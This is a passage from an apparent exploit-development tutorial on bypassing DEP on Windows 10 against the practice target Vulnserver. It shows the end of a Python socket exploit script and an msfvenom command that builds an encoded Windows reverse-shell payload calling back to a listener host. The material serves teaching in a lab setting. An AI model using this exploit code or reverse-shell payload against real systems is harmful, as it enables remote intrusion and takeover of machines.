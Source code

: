 ```python
        print "[+] Sent payload with length: %d" % len(buffer)
        s.send(buffer)
        s.close()

    except Exception, msg:
        print "[-] Something went wrong :("
        print msg

main()

```

After restarting the application and running....

![screenshot](/assets/img/vulnserverdep/dep_bypassed.PNG)

Wow! We did it! We bypassed DEP on Windows 10! All we need to do now is add a NOP sled for some safety, change our interrupts back to C's, implement some shellcode, and adjust for the new payload lengths. We'll skip the badchar enumeration and assume "\x00" is the only bad character (although, we should have done this much earlier in the process!).

```bash
root@kali:~/vulnserver/TRUN/DEP# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.16 LPORT=4444 -b '\x00' -e x86/shikata_ga_nai -f python -o shellcode.txt
root@kali:~/vulnserver/TRUN/DEP# sed -ie "s/buf/shellcode/g" shellcode.txt
```

Add the shellcode and NOP sled to our exploit:
